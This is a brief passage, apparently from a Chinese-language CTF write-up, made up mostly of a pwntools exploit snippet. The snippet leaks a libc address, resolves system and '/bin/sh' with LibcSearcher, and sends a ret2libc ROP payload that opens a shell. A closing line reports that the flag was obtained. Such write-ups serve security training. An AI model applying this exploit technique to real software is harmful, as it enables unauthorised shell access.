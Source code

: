 ```
str = p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')
print(str)
read_addr = u64(str)
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')
payload2 = b'A'*0x20 + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)

p.sendline(payload2)
p.interactive() 
```

运行，得到flag~~藏的位置好深啊~~
